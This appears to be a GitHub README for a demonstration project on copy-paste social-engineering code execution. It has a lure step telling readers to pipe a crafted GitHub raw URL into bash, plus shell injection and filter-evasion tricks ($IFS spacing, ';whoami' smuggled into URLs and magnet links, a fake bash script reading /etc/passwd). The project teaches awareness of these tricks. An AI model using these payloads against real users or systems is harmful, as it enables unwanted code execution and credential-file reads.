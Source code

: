 # latrina
Copypaste social-engineering code execution

* go to https://raw.githubusercontent.com/kusky3/latrina/main/test''/harmless.sh
* read the content
* copy the url  
* run `curl -s $URL | bash` 
* get owned and learn to escape the urls

## url encoding copypaste nightmares 
#### setting string variables without quotes    
`a=('a')`  
#### separating fields without spaces 
`echo$IFS$a`
#### separating fields without spaces or curly brackets
`a=('a');echo$IFS$a`  
`echo$IFS$9a`  
#### piping without pipes  
`wc -l < <(ls)`     
#### starting code execution without ampersand
`curl http://localhost/;whoami`
#### redirecting to a hidden exploit  
`mkdir bin;echo "cat /etc/passwd/" > bash; darkhttpd .`  
`curl -s http://localhost:8080/$0 | bash`
#### torrent magnets
`aria2c magnet:?xt=urn:btih:test&dn=linux.iso&whoami`
